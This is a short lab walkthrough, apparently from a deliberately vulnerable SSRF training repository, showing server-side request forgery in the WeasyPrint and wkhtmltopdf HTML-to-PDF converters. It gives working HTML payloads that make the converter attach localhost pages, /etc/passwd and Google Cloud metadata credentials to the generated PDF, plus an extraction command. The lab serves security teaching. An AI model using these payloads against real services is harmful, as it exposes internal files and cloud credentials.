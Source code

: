 # SSRF in HTML to PDF converter functionality

<b>Exploitation Difficulty : Easy</b><br>



<b>SSRF in Weasyprint HTML to PDF converter</b>
  
![](https://github.com/incredibleindishell/SSRF_Vulnerable_lab/blob/master/pdf_generator/images/w1.png?raw=true)

![](https://github.com/incredibleindishell/SSRF_Vulnerable_lab/blob/master/pdf_generator/images/w2.png?raw=true)

<b>Payloads</b>
To grab the data from HTTP based URL, use below mentioned style payload

    <link rel=attachment href="http://web_URL">
    <link rel=attachment href="http://localhost/admin.php">
To grab the data from internal file system, use below mentioned style payload

    <link rel=attachment href="file://internal_file_path">
    <link rel=attachment href="file:///etc/passwd">
<b>Exploiting the SSRF - Google Cloud Metadata endpoint access</b>
Let's assume, web application is hosted inside the Google Cloud Platform. Now, try to grab the data from Google Cloud internal Metadata endpoint.
I saved sample username and password during the creation of the Virtual machine which are accessible on below mentioned URL:
http://metadata.google.internal/computeMetadata/v1beta1/instance/attributes

To download and attach the HTTP response in the PDF, below mentioned payload will help:

    <link rel=attachment href="http://metadata.google.internal/computeMetadata/v1beta1/instance/?recursive=true">

![](https://github.com/incredibleindishell/SSRF_Vulnerable_lab/blob/master/pdf_generator/images/w3.png?raw=true)

Open the generated PDF and observe, nothing is there in customer name column. Download the generated PDF file to extract the data from it.

![](https://github.com/incredibleindishell/SSRF_Vulnerable_lab/blob/master/pdf_generator/images/w4.png?raw=true)

Extract the attached content from the downloaded PDF file using the script developed by Ben AKA Nahamsec.

    python script.py  downloaded_file.pdf
  
![](https://github.com/incredibleindishell/SSRF_Vulnerable_lab/blob/master/pdf_generator/images/w5.png?raw=true)


<b>SSRF in WKHTMLtoPDF HTML to PDF conveter</b>

![](https://github.com/incredibleindishell/SSRF_Vulnerable_lab/blob/master/pdf_generator/images/wk1.png?raw=true)


![](https://github.com/incredibleindishell/SSRF_Vulnerable_lab/blob/master/pdf_generator/images/wk2.png?raw=true)

![](https://github.com/incredibleindishell/SSRF_Vulnerable_lab/blob/master/pdf_generator/images/wk3.png?raw=true)

![](https://github.com/incredibleindishell/SSRF_Vulnerable_lab/blob/master/pdf_generator/images/wk4.png?raw=true)


./Thanks

